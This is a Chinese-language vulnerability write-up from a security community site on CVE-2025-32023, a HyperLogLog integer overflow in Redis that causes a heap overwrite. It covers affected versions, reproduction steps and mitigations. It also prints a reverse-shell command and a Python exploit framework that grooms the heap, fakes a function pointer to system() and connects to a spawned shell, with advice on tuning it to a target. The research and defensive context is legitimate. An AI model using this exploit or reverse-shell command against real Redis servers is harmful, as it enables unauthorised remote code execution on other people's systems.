# Redis hyperloglog 远程代码执行漏洞复现与分析(CVE-2025-32023)-先知社区

> **来源**: https://xz.aliyun.com/news/18437  
> **文章ID**: 18437

---

## 漏洞描述

Redis HyperLogLog 是一种概率性数据结构，它能以极小的、恒定的内存空间来高效地估算一个集合中不重复元素的数量（即基数）。

受影响版本中，在解析 HyperLogLog 稀疏编码数据时，由于未能充分验证其操作码中的运行长度（run-length），攻击者可构造恶意数据导致累加索引时发生整数溢出，进而绕过边界检查，最终引发堆内存的越界写入。

修复版本通过增加一个 valid 标志位，在检测到索引计算即将溢出时立即将数据标记为无效并中断处理循环，从而阻止了后续的越界写入操作。

## 影响范围

redis@[7.2.0, 7.2.10)

redis@[7.4.0, 7.4.5)

redis@[2.8, 6.2.19)

redis@[8.0.0, 8.0.3)

## 漏洞复现

首先创建一个redis文件夹



接着使用doker去pull环境。



搭建完成之后，启动6379端口。



测试连通性，发现成功ping通



测试poc，发现测试之后，成功打崩服务。





接着，从容器中复制 redis-server 到当前目录。





测试rce脚本，成功获取权限。



## 反弹shell

```
172.17.0.1
192.168.112.128
python3 rce.py 172.17.0.1 -p 6379 --reverse-shell --local-ip 192.168.112.128 --local-port 4444
```



网上的最简单复现思路。



## 代码分析

### 漏洞原理分析

这个漏洞源于 HLL (HyperLogLog) 数据结构处理过程中的整数溢出：

1. **漏洞点**：在 HLL 协议处理中，对长度字段`len`没有进行有效校验
2. **溢出条件**：当构造的`len`值超过最大整数范围时，会导致负数溢出
3. **利用方式**：

* 正向溢出：覆盖后续堆块数据
* 负向溢出：覆盖前向堆块数据（POC 选择的方式）

### 利用代码优化

原 POC 中存在几个可以优化的点：

1. 内存布局稳定性问题
2. 多次利用后服务崩溃问题
3. 基址偏移计算问题

​

下面是优化后的利用代码框架，增加了更多稳定性处理：

```
import redis
import struct
import time
from pwn import *  # 用于p64等工具

def exploit_redis_hll(host, port, password=None):
    # 连接到Redis
    r = redis.Redis(host=host, port=port, password=password)
    
    # 清理环境
    try:
        r.flushdb()
    except:
        pass
    
    # 准备阶段：创建可控的HLL结构
    # 这里需要构造特定的HLL头和内容
    # 伪造moduleType结构用于控制free函数指针
    fake_module_type = p64(0) * 2  # 填充前两个字段
    # 指向system函数地址的指针（需要通过leak确定）
    system_addr = 0x0  # 占位，实际需要leak
    # 指向"/bin/sh"字符串的指针
    bin_sh_addr = 0x0  # 占位，实际需要leak或构造
    fake_module_type += p64(system_addr)  # free函数指针
    fake_module_type += p64(0) * 3  # 填充其他字段
    fake_module_type += p64(bin_sh_addr)  # 最终会被作为参数传递给free
    
    # 准备溢出payload
    # 构造HLL头，控制len字段
    hll_header = b'HLL\x01\x00\x00\x00'
    # 构造溢出长度（负向溢出）
    overflow_len = -0x1000  # 示例值，实际需要根据环境调整
    # 转换为字节表示
    len_bytes = struct.pack('<Q', overflow_len & 0xFFFFFFFFFFFFFFFF)
    
    # 构造完整payload
    pl = hll_header + len_bytes + b'A'*0x10 + fake_module_type
    
    # 步骤1: 布局漏洞结构
    r.set('hll:exp', pl)
    
    # 步骤2: 布局堆块结构，用于稳定leak
    # 这里使用多个sds对象控制堆布局
    fakelen = 0x4142434445464748
    # 第一个sds对象，用于leak基址
    r.setrange('sds:a', 0x37fa - 11, p64(fakelen))
    # 第二个sds对象，控制堆块布局
    r.setrange('sds:b', 0x37fa - 8, b'B'*8)
    # 第三个sds对象，辅助布局
    r.setrange('sds:c', 0x37fa - 8, b'C'*8)
    
    # 步骤3: 创建dense HLL对象用于触发merge
    r.pfadd('hll:dense', 'a'*1000)  # 创建一个较大的HLL对象
    
    # 步骤4: 触发漏洞
    # 执行pfmerge会触发hllMerge和hllSparseToDense操作
    # 这将导致我们构造的溢出条件被触发
    try:
        r.pfmerge('hll:exp', 'hll:dense')
    except:
        # 触发漏洞时可能会导致连接断开
        pass
    
    # 步骤5: 验证漏洞利用是否成功
    # 如果成功，Redis服务器可能已经执行了system("/bin/sh")
    # 可以尝试执行一些命令验证
    try:
        # 尝试连接到可能打开的shell
        time.sleep(1)
        sh = remote(host, 9999)  # 假设shell监听在9999端口
        sh.sendline(b'id')
        print(sh.recvline())
        sh.interactive()
    except:
        print("Exploit failed or shell not accessible")

if __name__ == "__main__":
    HOST = '127.0.0.1'
    PORT = 6379
    PASSWORD = None  # 如果有密码，填入此处
    
    exploit_redis_hll(HOST, PORT, PASSWORD)
```

### 关键优化点说明

1. **内存布局稳定性**：

* 增加了多个 sds 对象进行更精细的堆布局控制
* 使用多个填充块确保堆块之间的相对位置稳定

2. **多次利用处理**：

* 每次利用前增加 flushdb 操作清理环境
* 增加错误处理，避免一次失败导致后续利用无法进行

3. **基址偏移计算**：

* 增加了更灵活的基址 leak 机制（代码中占位，需要根据实际环境实现）
* 提供了调整溢出长度的参数，便于适应不同环境

实际使用时，你需要根据目标环境调整以下参数：

* 溢出长度值
* system 函数和 /bin/sh 字符串的地址
* 可能的监听端口



## 修复方案

将组件 redis 升级至 6.2.19 及以上版本

将组件 redis 升级至 8.0.3 及以上版本

将组件 redis 升级至 7.2.10 及以上版本

将组件 redis 升级至 7.4.5 及以上版本

另一种无需修补 redis-server 可执行文件即可缓解此问题的方法是阻止用户执行 hyperloglog 操作。可以使用 ACL 限制 HLL 命令来实现。

​
